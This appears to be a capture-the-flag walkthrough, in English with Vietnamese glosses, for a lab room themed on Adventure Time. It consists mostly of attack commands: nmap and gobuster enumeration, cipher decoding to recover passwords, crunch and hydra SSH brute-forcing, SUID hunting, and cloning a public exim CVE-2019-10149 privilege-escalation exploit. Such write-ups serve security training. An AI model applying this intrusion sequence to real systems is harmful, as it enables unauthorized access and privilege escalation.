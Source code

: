 Room: Adventure Time

Flag1->Hint: Try to recursively enumerate the website(Hãy thử liệt kê (hoặc quét) đệ quy toàn bộ trang web).

$  nmap -sV -v <ip>

<img width="617" height="100" alt="{E4052F82-7898-43AB-9846-334DECEBE22C}" src="https://github.com/user-attachments/assets/07f086c2-edc9-4913-a18c-26d2e237412f" />

gobuster -u https://<IP>-w /usr/share/wordlists/master-lists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

=>candybar

$  echo "KBQWY4DONAQHE53UOJ5CA2LXOQQEQSCBEBZHIZ3JPB2XQ4TQNF2CA5LEM4QHEYLKORUC4===" | base32 -d 

=> Palpnh rwtrz iwt HHA rtgixuxrpit udg rajth.

https://www.dcode.fr/caesar-cipher

https://land-of-ooo.com

$  sudo gobuster -u https:// land-of-ooo.com -w /usr/share/wordlists/master-lists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

=> yellowdog

https://land-of-ooo.com/yellowdog/

$  sudo gobuster dir -u https://land-of-ooo.com/yellowdog/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -k

=> bananastock

https://land-of-ooo.com/yellowdog/bananastock/

Morse code: _/…./.\_…/._/_./._/_./._/…\._/._./.\_/…./.\_…/./…/_/_._.__/_._.__/_._.__

https://www.dcode.fr/morse-code

=>Pass: The banana are the best!!!

$  sudo gobuster dir -e -u https://land-of-ooo.com/yellowdog/bananastock/ -w /usr/share/wordlists/dirb/common.txt -k

=> princess

https://land-of-ooo.com/yellowdog/bananastock/princess/

https://anycript.com/crypto

AES (viết tắt của Advanced Encryption Standard) là một thuật toán mã hóa đối xứng rất phổ biến và mạnh mẽ, được dùng trong hầu hết các hệ thống bảo mật hiện nay — như HTTPS, VPN, Wi-Fi (WPA2/WPA3), ngân hàng, và thiết bị di động.

$  nc land-of-ooo.com 31337

$  sudo ssh apple-guards@<IP>  ,Password: THE BANANAS ARE THE BEST!!!

Flag2->Hint: Can you search for someone's files?

$  find / -user marceline -type f 2>/dev/null

https://www.boxentriq.com/code-breaking/vigenere-cipher

Vigenère cipher là một mã hóa chữ cái theo kiểu dùng khóa (key) lặp lại để dịch chuyển mỗi chữ cái của plaintext với bảng chữ cái 26 ký tự.

=> Abadeer

$  su marceline > Password: My friend Finn

Flag3:

https://www.dcode.fr/spoon-language

=> The magic word you are looking for is ApplePie

$  nc land-of-ooo.com 31337

$  su peppermint-butler > Password: That Black Magic

Flag4->Hint: Things can be hidden and hidden things can be unfolded with the right passwords(Những thứ có thể bị giấu, và những điều bị giấu có thể được hé lộ nếu có đúng mật khẩu).

$  find / -user peppermint-butler -type f 2>/dev/null

$  cat /usr/share/xml/steg.txt

$  find / -user peppermint-butler -name "*.txt" 2>/dev/null

$  cat /etc/php/zip.txt

$  crunch 18 18 -t 'The Ice King s@@@@' > file.txt

$  sudo hydra -l gunter -P file.txt ssh://<IP>

$  su gunter > Password: The Ice King sucks

Flag5:

$  find / -perm /4000 2>/dev/null

$  searchsploit exim

$  cd /etc/exim4/

$  cat /etc/exim4/update-exim4.conf.conf

$  git clone ‘https://github.com/AzizMea/CVE-2019-10149-privilege-escalation.git'
